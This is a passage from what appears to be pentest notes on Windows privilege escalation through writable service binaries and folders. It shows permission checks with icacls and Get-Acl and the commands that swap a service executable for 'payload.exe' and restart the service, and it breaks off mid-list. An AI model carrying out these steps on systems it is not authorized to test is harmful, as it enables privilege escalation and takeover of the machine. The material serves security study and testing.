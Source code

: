 ```powershell
Get-Acl -Path "C:\Program Files\VulnServ\vulnserv.exe" | fl
```

## Writeable Folders

We can also have rights to write into the folder but not into the binary itself. We cab check permissions on folders with `icacls` or `Get-Acl`.

```
C:\>icacls exacqVisionEsm
icacls exacqVisionEsm
exacqVisionEsm NT AUTHORITY\NETWORK SERVICE:(RX)
               S-1-5-21-1861402468-3453913150-4246083462-1001:(RX)
               BUILTIN\Administrators:(I)(OI)(CI)(F)
               NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
               BUILTIN\Users:(I)(OI)(CI)(RX)
               NT AUTHORITY\Authenticated Users:(I)(M)
               NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
```

**Permissions:**

* **Full access (F)**: Change the binary to the malicious one. `PRIV PATH`
* **Modify access (M)** : Rename the binary to bin.bak and copy the malicious binary to the original path bin.exe. `PRIV PATH`
* **Read and Execute access (RX)**: Can read and execute, nothing here.
* **Read-only acess (R)**: Only can read, nothing here.
* **Write-only acess (W)**: Only can write, same as (F), change the binary to the malicious one. `PRIV PATH`


```powershell
Get-Acl -Path "C:\Program Files\VulnServ\vulnserv.exe" | fl
```

**Changing the original binary:**

```
move .\enterprisesystemmanager.exe .\enterprisesystemmanager.bak
move C:\Windows\Temp\payload.exe .\enterprisesystemmanager.exe
```

Check the configuration of the service to see how to restart the service.

```
sc qc "exacqVision Enterprise System Manager Web Service"
```

* **Restart Manually**

If you have sufficient permissions over the service restart it manually.

```
net stop ServiceName
net start ServiceName
```

* **AUTO\_START enabled**
